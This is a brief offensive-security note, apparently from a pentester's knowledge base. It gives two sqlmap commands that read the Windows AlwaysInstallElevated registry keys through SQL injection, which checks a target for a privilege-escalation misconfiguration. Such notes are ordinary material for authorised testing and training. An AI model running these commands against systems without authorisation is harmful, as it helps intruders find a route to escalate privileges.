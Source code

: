 # Windows

Search Tag(s): #sqlmap #enumeration-and-discovery #privilege-escalation

## Enumerate

> [!IMPORTANT] Conditions
> Write the conditions...

TODO: Add for schedule task

Enumerate [[07 - Tactics & Techniques & Procedures Phases/F - Post Exploitation/0x02 - Privilege Escalation/Windows/Local Privilege Escalation/Registry/AlwaysInstallElevated/Manual/Living off the Land|AlwaysInstallElevated]] for privilege escalation.

```
$ sqlmap -u "<URL>" --random-agent --reg-read="HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer" --reg-value="AlwaysInstallElevated"

$ sqlmap -u "<URL>" --random-agent --reg-read="HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer" --reg-value="AlwaysInstallElevated"
```